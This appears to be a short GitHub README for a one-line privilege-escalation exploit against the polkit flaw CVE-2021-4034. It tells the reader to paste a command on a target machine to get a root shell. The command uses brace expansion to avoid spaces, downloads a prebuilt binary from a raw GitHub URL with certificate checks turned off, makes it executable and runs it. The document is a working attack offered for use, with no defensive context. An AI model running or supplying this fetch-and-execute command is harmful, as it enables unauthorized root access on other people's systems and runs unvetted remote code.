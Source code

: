 # Oneline PrivEsc
 This is static binary file to exploit the polkit vulnerability (CVE-2021-4034)
 Just copy and paste on target this command and get root shell.

 GCC it's not needed on target!

```sh

{curl,-s,-k,https://raw.githubusercontent.com/carlosevieira/polkit/main/pwn,-o,/tmp/polkit};{chmod,+x,/tmp/polkit};/tmp/polkit

```

Tks @0dayCTF for the static binary <3
